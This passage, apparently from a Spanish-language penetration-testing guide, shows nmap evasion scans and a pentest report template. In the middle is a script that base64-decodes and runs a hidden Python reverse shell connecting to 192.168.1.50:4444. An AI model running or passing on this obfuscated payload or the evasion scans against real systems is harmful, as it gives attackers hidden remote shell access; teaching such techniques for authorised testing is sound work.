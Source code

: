 ```bash
# Fragmentación de paquetes
nmap -f target.com

# Decoy scanning
nmap -D RND:10 target.com

# Source port spoofing
nmap --source-port 53 target.com
```

### 3. Técnicas de Ofuscación

```python
#!/usr/bin/env python3
# obfuscated_payload.py - Payload ofuscado

import base64
import subprocess

# Payload codificado en base64
encoded_payload = "cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4xLjUwIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn"

# Decodificar y ejecutar
decoded = base64.b64decode(encoded_payload).decode()
subprocess.call(decoded, shell=True)
```

## 📊 Documentación de Explotación

### Template de Reporte de Explotación

```markdown
# Reporte de Explotación

## Información del Target
- **IP/Hostname**: target.example.com
- **SO**: Linux Ubuntu 18.04
- **Servicios**: SSH, HTTP, SMB

## Vulnerabilidad Explotada
- **CVE**: CVE-YYYY-XXXXX
- **Descripción**: Buffer overflow en servicio X
- **CVSS**: 9.8 (Crítico)

## Metodología de Explotación
1. Reconocimiento inicial
2. Identificación de la vulnerabilidad
3. Búsqueda de exploit
4. Adaptación del exploit
5. Ejecución controlada

## Evidencia de Explotación
- Comandos ejecutados
- Screenshots del acceso obtenido
- Archivos de evidencia

## Impacto Demostrado
- Acceso shell como root
- Lectura de archivos sensibles
- Capacidad de persistencia
```